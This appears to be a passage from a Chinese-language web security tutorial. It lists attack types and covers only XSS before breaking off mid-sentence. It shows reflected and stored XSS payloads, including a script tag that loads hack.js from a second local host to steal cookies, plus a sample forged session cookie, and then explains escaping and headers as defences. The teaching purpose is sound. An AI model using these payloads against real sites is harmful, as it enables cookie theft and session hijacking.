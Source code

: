 # 引言
***
此篇文章主要涉及以下内容：
1. `XSS`
2. `CSRF`
3. 点击劫持
4. `SQL`注入
5. `OS`注入
6. 请求劫持
7. `DDOS`
# XSS
***
**XSS（Cross Site Scripting）**，跨站脚本攻击，因为缩写和`CSS`重叠，所以只能叫`XSS`。跨站脚本攻击是指通过存在安全漏洞的`Web`网站注册用户的浏览器内运行非法的`HTML`标签或`JavaScript`进行的一种攻击。
跨站脚本攻击有可能造成以下影响：
- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的`Cookie`值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。
##XSS攻击分类
- 反射性——url参数直接注入
```
// 普通
http://localhost:3000/?from=china
// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>
// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js">
</script>
// 短域名伪造 https://dwz.cn/
// 伪造cookie⼊侵 chrome
document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjox
NTUzNTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```
- 存储型——存储到`DB`后读取时注入
```
// 评论
<script>alert(1)</script>
// 跨站脚本注⼊
我来了<script src="http://localhost:4000/hack.js"></script>
```
##XSS攻击的危害——scripting能干啥就能干啥
- 获取页面数据
- 获取cookies
- 劫持前端逻辑
- 发送请求
- 偷取网站的任意数据
- 偷取用户的资料
- 偷取用户的秘密和登录态
- 欺骗用户
## 防范手段
>ejs转义小知识
```
<% code %>⽤于执⾏其中javascript代码；
<%= code %>会对code进⾏html转义；
<%- code %>将不会进⾏转义
```
- HEAD
```
ctx.set('X-XSS-Protection', 0) // 禁⽌XSS过滤
// http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装⼀下就
```